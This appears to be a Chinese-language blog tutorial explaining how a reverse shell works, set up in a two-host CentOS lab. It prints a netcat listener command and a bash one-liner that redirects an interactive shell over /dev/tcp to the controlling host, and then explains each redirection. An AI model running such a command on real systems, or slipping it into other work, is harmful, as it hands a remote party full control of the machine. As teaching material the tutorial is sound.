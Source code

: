 ```yaml
---
title: 反向shell
type: shell
description: 反向shell的工作方式是远程计算机将自己的shell发送给特定的用户，而不是将shell绑定到一个端口上
date: 2020-06-22 19:10:42
---
```

# 反向shell

## 什么是反向shell

>[反向shell](https://baike.baidu.com/item/%E5%8F%8D%E5%90%91shell/16751835?fr=aladdin)的工作方式是远程计算机将自己的shell发送给特定的用户，而不是将shell绑定到一个端口上。后者在很多环境中是无法访问的。这样，你就可以对远程服务器执行root命令。
## 测试环境

* 控制端：10.60.188.188 、 CentOS-7
* 被控制端：10.60.30.88 、 CentOS-7

## 测试步骤

1. 控制端执行
   
```
    ~#: nc -lvp 50509       //监听一个tcp端口 50509
```

2. 被控制端执行

```
    ~#:bash -i > /dev/tcp/10.60.188.188/50509 0>&1 2>&1
```

3. 执行后，在控制端会进入一个 `被控端` 的命令行shell 。 可以执行一切命令，就相当于登录进 `被控制端一样`

效果图：

![控制端](/images/shell_server.png)

![控制端](/images/shell_client.png)


## 原理说明

* `nc -lvp 50509`  nc 命令很常用，这里只是监听一个tcp端口50509
* `bash -i` 开启一个交互式shell
* `bash -i > /dev/tcp/10.60.188.188/50509`   把这个交互式shell的输出，重定向给tcp 10.60.188.188:50509 。如果仅仅执行这个命令，那么被控制端接下来输入的任何东西，都会被传输到控制端
* `bash -i > /dev/tcp/10.60.188.188/50509 0>&1 2>&1` 交互式shell的 输入、输出、标准错误都传输到 tcp 10.60.188.188:50509。  （也就是说，执行完命令后，正常情况下，你期望的是执行完 `bash -i` 开启一个新的shell，然后你进行各种命令操作，此时你输入的各种命令来自于你自己的终端。 但是，我们的这个命令，把标准输入也设置为从 socket获取，同时标准输出 和标准错误 都传输给socket。  这样的话，也就是说，相当于通过这个socket 在被控制端执行了一个 交互式shell，那么此时你在控制端就可以对被控制端做任何操作了。）

## 补充

反向shell，通常被黑客所利用。 不过，说实话，对于普通大众个人电子设备在神级黑客面前可以说都是肉鸡，除了无奈，还是无奈。  不过，自己多了解一下知识，遇到这种情况了，不至于慌得一笔 ！
  



